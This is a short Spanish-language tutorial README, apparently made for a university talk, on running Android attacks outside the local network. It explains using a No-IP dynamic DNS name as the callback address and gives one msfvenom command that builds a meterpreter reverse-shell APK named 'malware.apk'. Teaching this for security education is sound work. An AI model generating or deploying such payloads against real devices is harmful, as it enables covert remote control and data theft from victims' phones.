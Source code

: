 #Android Invaders - Ataques fuera de LAN

![Logo](images/logo.png)

##Algunas notas sobre NO IP

Para ataques fuera de LAN es interesante el uso de NOIP en vez de IP Pública (que va cambiando cada cierto tiempo). Un breve [tutorial](https://www.youtube.com/watch?v=dH_TbQDwxSs) y la dirección que se usa para crear la [NO IP](http://www.noip.com/), que nos da una dirección DNS para nuestra IP pública.

Creamos una dirección NOIP como **nombre.ddns.net** (creando una cuenta de usuario) y le asignamos nuestra ip publica. Para saber cual es tendremos que entrar en:

  www.cualesmiip.com

##Ejemplo de la charla

Por ejemplo, para crear el APK que hemos hecho antes:

      msfvenom -p android/meterpreter/reverse_tcp LHOST=nombre.ddns.net LPORT=5555 R> malware.apk

##Notas del autor

Este tutorial fue realizado para una charla informativa para la Universidad de Granada, el autor o autores de él no se hacen responsables del mal uso que se pueda dar. Sed buenos. }:)
